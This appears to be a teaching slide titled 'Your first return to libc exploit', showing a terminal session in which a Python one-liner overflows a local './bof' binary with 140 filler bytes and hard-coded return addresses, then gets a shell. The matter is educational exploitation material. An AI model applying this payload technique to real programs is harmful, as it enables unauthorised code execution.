

# Your first return to libc exploit
$ ./bof $(python -c 'print "A" * 140 + "\x80\xfd\xe3\xf7" + "\xb0\x39\xe3\xf7" + "\x79\x8d\x04\x08" + "\0\0\0\0"')
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��9y�
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
$